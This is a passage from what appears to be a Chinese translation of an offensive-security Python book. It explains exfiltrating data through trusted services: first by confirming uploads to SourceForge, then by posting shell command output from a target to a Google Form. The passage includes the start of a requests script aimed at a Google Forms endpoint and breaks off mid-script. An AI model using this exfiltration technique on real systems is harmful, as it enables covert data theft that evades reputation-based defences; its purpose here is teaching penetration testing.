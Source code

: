 ```
apt-get install filezilla 
```

通过运行`filezilla`打开软件，并输入先前在脚本中输入的服务器名称/主机名、用户名、密码和端口号，以登录您的帐户。由于这是第一次登录，会出现警告信息，如果我们稍微向下滚动，就可以看到文件已经成功上传。`M5` 文件已经成功上传，以下截图显示了这一点：

![](img/00052.jpeg)

尝试通过右键点击文件名并选择“下载”来下载此文件。如果没有错误，控制台会显示文件已成功传输。

现在，重复上述步骤，使用 `.txt` 扩展名检查是否成功。刷新攻击者侧并查看内容。渗透测试评估完成后，请确保从 SourceForge 仓库中删除文件。

# 与 Google Forms 互动

在前面的部分，我们已经看到如何将数据导出到 SourceForge 网站。现在，我们将使用 Google Forms 提交普通文本。请注意，这些文本可能是我们 Shell 的命令执行输出。这里的关键点是，类似 SourceForge，Google Forms 也有相当高的信誉排名。按照以下步骤开始：

1.  登录 Google Forms

1.  点击“开始新表单”创建一个新的 Google 表单

1.  将问题输入为 `Python 不是很酷吗？`

1.  在“响应”选项卡中，保留电子表格的默认名称

1.  将问题类型从默认的“多项选择”更改为“段落”

1.  创建表单后，点击“发送”

1.  将提供的链接复制到记事本或文本文件中

1.  访问我们复制的链接并提交一个简单的文本

1.  检查我们创建的 Google Sheet 中的响应，到那时它将存储在您的 Google Drive 中

现在，我们将编写一个 Python 脚本，将目标端的文本数据提交到我们的 Google 表单，最棒的是，我们可以在不登录 Google 账户的情况下完成这项工作。像往常一样，最适合与网页交互的 Python 库是 `requests`，我们在前面的章节中已经使用过 `requests`：

```
'''
Caution
--------
Using this script for any malicious purpose is prohibited and against the law. Please read Google terms and conditions carefully. 
Use it on your own risk. 
'''

# Python For Offensive PenTest

# Interacting with Google Forms

import requests # To install requests library, just type on the CMD: pip install requests

url = 'https://docs.google.com/forms/d/e/1FAIpQLSdNHreWMKC4li3a-Ox7IzQZ9mkZjI94I8U6jz8yHBkePXSPoA/formResponse' # please replace the URL with your own google form :D

'''
notice that i added /formResponse to the end of the URL and this is inherited from the page HTML source code,
as we can see below, the HTML form action contains /formResponse when method POST is used to send the user data
```
